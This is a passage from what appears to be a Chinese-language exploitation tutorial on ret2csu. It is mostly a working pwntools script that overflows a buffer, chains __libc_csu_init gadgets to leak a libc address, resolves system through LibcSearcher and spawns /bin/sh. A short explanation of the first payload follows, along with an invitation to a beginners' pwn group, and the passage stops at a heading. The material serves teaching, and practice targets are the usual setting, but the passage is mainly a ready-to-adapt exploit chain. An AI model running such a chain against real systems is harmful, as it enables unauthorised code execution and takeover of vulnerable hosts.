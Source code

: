 ```
    # rsi=r14
    # rdx=r15
    payload = p64(csu_end_addr) + "A"*8 + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'A' * 0x38 # 这里+0x38是因为在gadget2中没有对rsp影响的操作，所以直接+0x38即可
    payload += p64(last)
    return payload

sh.recvuntil('Hello, Worldn')
payload1 = "A"*0x88 + csu(0, 1, write_got, 1, write_got, 8, main_addr)
sh.sendline(payload1)
write_addr = u64(sh.recv(8))
log.success("sending payload1 ---&gt; write_addr =&gt; `{``}`".format(hex(write_addr)))
libc = LibcSearcher('write',write_addr)
libc_base_addr = write_addr - libc.dump("write")
execve_addr = libc_base_addr + libc.dump("execve")
system_addr = libc_base_addr + libc.dump("system")
log.success("libc_base_addr =&gt; `{``}`".format(hex(libc_base_addr)))
log.success("execve_addr =&gt; `{``}`".format(hex(execve_addr)))
log.success("system_addr =&gt; `{``}`".format(hex(system_addr)))

# pause()
#sh.recvuntil("Hello, Worldn")
payload2 = "A"*0x88 + csu(0, 1, read_got, 0, bss_base, 0x100, main_addr)
log.success("sending payload2 ---&gt;")
sh.sendline(payload2)
log.success("sending payload3 ---&gt;")
payload3 = "/bin/shx00"
payload3 += p64(system_addr)
sh.sendline(payload3)
log.success("sending payload4 ---&gt;")
payload3 = "x00"*0x88 + csu(0, 1, bss_base+8, bss_base, 0, 0, main_addr)
sh.sendline(payload3)
sh.interactive()
```

这里我们以payload1 作为分析的样本

1.`payload1 = "x00"*0x88 + csu(0, 1, write_got, 1, write_got, 8, main_addr)`

可以看到这里

[![](https://p2.ssl.qhimg.com/t01192aca805206535d.png)](https://p2.ssl.qhimg.com/t01192aca805206535d.png)

这个其实对应的调用是`write(1, writ_got_addr, 8)`

其他的点,建议自己跟一下,如果还不明白, 欢迎加入PWN萌新群，寻找大佬手把手教学。

UVE6OTE1NzMzMDY4 (Base64)

### <a class="reference-link" name="0x2.1%20%E5%85%B3%E4%BA%8Eret2csu%E7%9A%84%E9%A2%98%E5%A4%96%E8%AF%9D"></a>0x2.1 关于ret2csu的题外话
